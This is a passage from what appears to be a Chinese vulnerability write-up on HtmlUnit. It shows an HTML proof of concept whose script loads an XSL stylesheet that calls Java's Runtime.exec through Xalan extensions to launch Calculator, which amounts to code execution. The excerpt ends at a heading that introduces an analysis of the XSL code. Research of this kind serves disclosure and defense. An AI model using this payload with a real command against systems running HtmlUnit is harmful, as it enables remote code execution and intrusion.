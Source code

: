htmlunit.html

```plain
<script>
// 创建一个XML字符串并加载为XML文档
var xmlString = '<?xml version="1.0" encoding="UTF-8"?><s></s>';
var parser = new DOMParser();
var xmlDoc = parser.parseFromString(xmlString, "text/xml");

// 创建XSL字符串并加载为XML文档
var xslString = `<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <xsl:value-of select="$processString"/>
   </xsl:template>
 </xsl:stylesheet>`;
var xslDoc = parser.parseFromString(xslString, "text/xml");

// 使用XSLTProcessor进行转换
var processor = new XSLTProcessor();
processor.importStylesheet(xslDoc);
var resultDocument = processor.transformToDocument(xmlDoc);

</script>
```

[![](assets/1702521100-ce2cb7bc81420e898c8b38f18e752a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231203235554-70ed905e-91f4-1.png)

#### XSL代码分析
